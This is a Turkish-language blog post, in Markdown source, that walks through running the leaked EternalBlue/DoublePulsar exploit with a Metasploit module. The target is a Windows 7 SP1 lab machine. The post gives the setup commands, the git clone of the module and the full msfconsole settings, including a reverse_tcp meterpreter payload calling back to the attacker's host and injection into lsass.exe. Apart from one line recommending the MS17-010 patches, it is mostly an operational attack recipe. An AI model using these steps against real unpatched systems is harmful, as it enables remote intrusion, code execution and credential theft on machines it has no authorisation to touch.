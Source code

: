 ```yaml
---
layout: post
title: "Metasploit Framework EternalBlue&Double Pulsar"
date: 2017-05-02
share: true
description: Metasploit Framework EternalBlue&Double Pulsar
tags:
 - doublepulsar
 - shadow brokers
 - metasploit
comments: true
---
```


# Metasploit Framework EternalBlue&Double Pulsar

Selamlar , bildiğiniz gibi nsa tarafından yazılan kullanılan araçlardan bazıları shadow brokers adlı grup tarafından yayınlandı. 

Yayınlanan araçlardan fuzzbunch adındaki framework en fazla dikkat çeken araç oldu.

Özellikle doublepulsar backdooru ile birçok windows sürümlerine sızılabiliyor.

Bu zaafiyetlerden etkilenmemek için MS17-010 ile ilgili güncellemeleri yüklemelisiniz.

Sızdırılan exploitler kısa bir süre içinde engellendi fakat birçok github hesabı üzerinde bu toollara erişebilrisiniz.

Bir örnek:

[Nsa Shadow Brokers Tools](https://github.com/misterch0c/shadowbroker)

Bu sızıntı hakkında birçok bilgi bulunnaktadır araştırmanızı öneririm. Ben kısaca doublepulsarın metasploit frameworkü üzerinde kullanılmasından bahsedicem.

Eternalblue&Doublepulsar kısaca smb üzerinden dll injection yaparak hedefe sızmayı sağlıyor. Fuzzbunch frameworku üzerinde kullanılıyor.

Araştırırken hep windows üzerinde fuzzbunch'ı kullanarak hedefe sızmaya çalıştığını gördüm. Fakat fuzzbunch'ı windows üzerinde çalıştırmayı denerken bazı bağımlılıkları yüklerken hatalarla karşılaştım. Daha sonra gördüm ki doublepulsarı metasploit üzerindede kullanabiliyormuşuz. Hem bu şekilde kullanım açısından daha kolay olur diye düşündüm.

Sırasıyla aşağıdaki komutları çalıştırıyoruz.

>dpkg --add-architecture i386 && apt-get update && apt-get install wine32
>rm -r ~/.wine
>wine cmd.exe
>exit

Daha sonra [https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit) bu adresten metasploit için eternalblue&doublepulsar modünü indiriyoruz.

>git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

İçerisinde bulunan <u>deps</u> klasörü ile <u>eternalblue_doublepulsar.rb</u> dosyasını kalide <u>/usr/share/metasploit-framework/modules/exploits/windows/smb/</u> klasörü içersine kopyalıyoruz.

>service postgresql start - - - > Metasploit'i baştan başlatıyoruz.

Ben Windows 7 Service Pack1 makinesine sızmayı deneyeceğim.

Windows 7 makinesini IP adresi > 172.16.72.129

Kali nin IP adresi > 172.16.72.128

Eternalblue modülünü kullanmak için msfconsole'de:

	use exploit/windows/smb/eternalblue_doublepulsar

![](/images/doublepulsar/1.png)

>show options ile set edebilceğimiz değerler:


![](/images/doublepulsar/2.png)

	set DOUBLEPULSARPATH /usr/share/metasploit-framework/modules/exploits/smb/deps
	set ETERNALBLUEPATH /usr/share/metasploit-framework/modules/exploits/smb/deps
	set rhost 172.16.72.129
	set targetarchıtecture x64
	set payload windows/meterpreter/reverse_tcp
	set processinject lsass.exe
	set lhost 172.16.72.128
	set target 9

![](/images/doublepulsar/3.png)

Son olarak değerler:

![](/images/doublepulsar/4.png)

Daha sonra exploit diyerek hedef makineye sızma işlemini gerçekleştiriyoruz.

![](/images/doublepulsar/5.png)





